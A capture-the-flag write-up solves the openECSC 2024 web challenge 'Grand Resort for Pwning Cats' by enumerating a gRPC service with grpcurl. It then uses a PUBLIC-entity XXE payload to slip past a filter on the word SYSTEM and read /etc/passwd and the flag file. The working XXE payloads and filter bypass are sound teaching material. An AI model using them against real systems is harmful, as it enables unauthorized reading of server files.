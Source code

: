 # Grand Resort for Pwning Cats

## Description

```
Welcome to the Grand Resort for Pwning Cats. Are you ready to become the cutest pwner kitten at our establishment?

The flag is stored in /flag.txt

Site: http://grandresort.challs.open.ecsc2024.it
```

## Categories

- `web`

## Provided Files

- `backend.zip`

## Solve Process

Upon inspecting the provided source code, we quickly notice that we can disregard the frontend completely, while only one file is of interest, namely a `.proto` file. We can also observe that we are dealing with a gRPC endpoint here, but are not given any endpoints in the backend code.

```go
type receptionServer struct {
    pb.UnimplementedReceptionServer
}

// Endpoints' definition are in endpoints.go, which is not provided... eheheh not so easy now, uh?

func main() {
    flag := os.Getenv("FLAG")
    err := os.WriteFile("/flag.txt", []byte(flag), 0644)
    if err != nil {
        panic(err)
    }

    lis, err := net.Listen("tcp", "0.0.0.0:38010")
    if err != nil {
        log.Fatalf("failed to listen: %v", err)
    }

    grpcServer := grpc.NewServer()
    pb.RegisterReceptionServer(grpcServer, &receptionServer{})
    reflection.Register(grpcServer)
    grpcServer.Serve(lis)
}
```

The protobuf file looks like this, but we can't really make much of it yet other than the basic structure of how this thing operates.

```t
service Reception {
    rpc listRooms (google.protobuf.Empty) returns (RoomList) {}
    rpc bookRoom (BookingInfo) returns (BookingConfirm) {}
}

message Room {
    string id = 1;
    string Name = 2;
    string description = 3;
    int32 price = 4;
}

message RoomList {
    repeated Room rooms = 1;
}

message BookingInfo {
    string roomId = 1;
    int32 nights = 2;
    string guestName = 3;
}

message BookingConfirm {
    string msg = 1;
}
```

Let's explore the backend a bit using a tool called `grpcurl`. It allows us to list endpoints and describe them in detail using the `describe` subcommand.

```bash
grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 describe
# --- snip ---
GrandResort.Reception is a service:
service Reception {
  rpc bookRoom ( .GrandResort.BookingInfo ) returns ( .GrandResort.BookingConfirm );
  rpc createRoom73950029 ( .GrandResort.RoomRequestModel ) returns ( .GrandResort.RoomCreationResponse );
  rpc createRoomRequestModelc21a7f50 ( .google.protobuf.Empty ) returns ( .GrandResort.RoomRequestModel );
  rpc listRooms ( .google.protobuf.Empty ) returns ( .GrandResort.RoomList );
}
grpc.reflection.v1.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1.ServerReflectionResponse );
}
grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```

After a bit of reading the manual of `grpcurl`, I discovered how to talk with these services, which is just a matter of chaining them together with the parent service. We can try out a few of them, but strikes interest in particular.

```bash
grpcurl -plaintext grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "Error while parsing: failed to create parse context: failed to execute XMLCreateMemoryParserCtxt: error creating parser"
}
```

It is complaining about some sort of XML error here, so why not provide it with some XML to see what it does. We can do that by specifying our payload using `-d`

```bash
grpcurl -plaintext -d '{ "RoomRequestModel": "<test></test>" }' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "You requested the creation of "
}
```

Aha, so it is trying to create something. This is where we can look at the protobuf file from earlier again, which specifies how a room should generally look like.

```t
message Room {
    string id = 1;
    string Name = 2;
    string description = 3;
    int32 price = 4;
}
```

Let's apply this knowledge to build a new payload.

```bash
grpcurl -plaintext -d '{ "RoomRequestModel": "<room><name>Test</name></room>" }' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "You requested the creation of Test"
}
```

Now that works, now all that is left to do is to try and abuse this. When we think XML, we thing XXE, which I have less to no experience with. So I spend some time googling about payloads and quickly found a defacto standard payload which I tried.

```bash
grpcurl -plaintext -d '{ "RoomRequestModel": "<!DOCTYPE room [ <!ENTITY xxe SYSTEM \"file:///etc/passwd\"> ]><room><name>&xxe;</name></room>" }' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "Error: you can't use the S-word!"
}
```

And as we can see the endpoint is not really happy about that and tells us to stop using the S-word. Alright then, let's search for an alternative that does not use `SYSTEM`. This took me longer than I thought until I stumbled upon [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings), which states the following.

```plain
SYSTEM and PUBLIC are almost synonym.

<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

Very nice, so how about we try this instead.

```bash
grpcurl -plaintext -d '{ "RoomRequestModel": "<!DOCTYPE room [ <!ENTITY xxe PUBLIC \"sadafasd\" \"file:///etc/passwd\"> ]><room><name>&xxe;</name></room>" }' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "You requested the creation of root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
}
```

Oh Hello there, that is a file leak. Now `/etc/passwd` is cool and all, but actually we want something different, right?

```bash
grpcurl -plaintext -d '{ "RoomRequestModel": "<!DOCTYPE room [ <!ENTITY xxe PUBLIC \"sadafasd\" \"file:///flag.txt\"> ]><room><name>&xxe;</name></room>" }' grandresort.challs.open.ecsc2024.it:38010 GrandResort.Reception/createRoom73950029
{
  "RoomCreationResponse": "You requested the creation of openECSC{UWu_r3fl3ktIng_K17T3n5_uWU_XXX}"
}
```
